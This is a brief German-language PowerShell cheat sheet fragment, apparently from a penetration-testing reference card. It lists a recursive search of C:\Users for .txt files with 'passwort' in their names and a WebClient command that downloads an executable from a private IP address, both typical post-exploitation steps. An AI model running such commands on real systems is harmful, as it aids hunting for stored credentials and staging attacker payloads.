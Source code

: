 Finden von Dateien mit bestimmten Namen:

```PowerShell
Get-ChildItem "C:\Users\" -recurse -include *passwort*.txt
```

Eine Datei per HTTP herunterladen (wget für Windows):

```PowerShell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/datei.exe","datei.exe")
```

Erstellt von\
myztic\@gmx.net\
v3.0 Stand 2020-02-11
